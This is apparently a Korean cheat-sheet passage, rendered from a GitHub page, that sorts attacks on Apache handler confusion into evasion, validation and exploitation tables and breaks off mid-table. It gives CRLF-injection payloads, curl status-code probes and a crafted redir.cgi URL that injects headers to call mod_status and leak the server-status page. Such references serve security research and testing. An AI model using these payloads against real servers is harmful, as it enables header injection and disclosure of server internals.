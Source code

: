 ### Evasion
<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>CRLF Injection in Response Header</td>
      <td><pre><code>%0d%0aContent-Type:
application/x-httpd-php%0d%0a%0d%0a</code></pre></td>
      <td>CGI 파라미터에 `%0d%0a` 시퀀스를 삽입하여 HTTP 응답 헤더를 조작할 수 있다. 이를 통해 Content-Type이나 Location을 의도적으로 설정해 핸들러 변조를 유도할 수 있다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Validation
<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Response Code Differential Test</td>
      <td><pre><code>curl -I /admin.php 및 
curl -I /admin.php%3Funused</code></pre></td>
      <td>원본 요청과 인코딩 삽입 요청 간 HTTP 상태 코드 차이(예: 200↔404)를 비교하여 핸들러 혼동으로 인해 처리 방식이 달라졌는지 판단한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Exploitation
<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Invoke Server-Status Handler</td>
      <td><pre><code>http://server/cgi-bin/redir.cgi?r=
http://%0d%0aLocation:/ooo%0d%0a
Content-Type:server-status%0d%0a%0d%0a</code></pre></td>
      <td>CRLF 인젝션을 통해 Content-Type을 `server-status` 핸들러로 설정해 Apache `mod_status`를 실행시켜 서버 상태 페이지를 유출한다.</td>
      <td>[1]</td>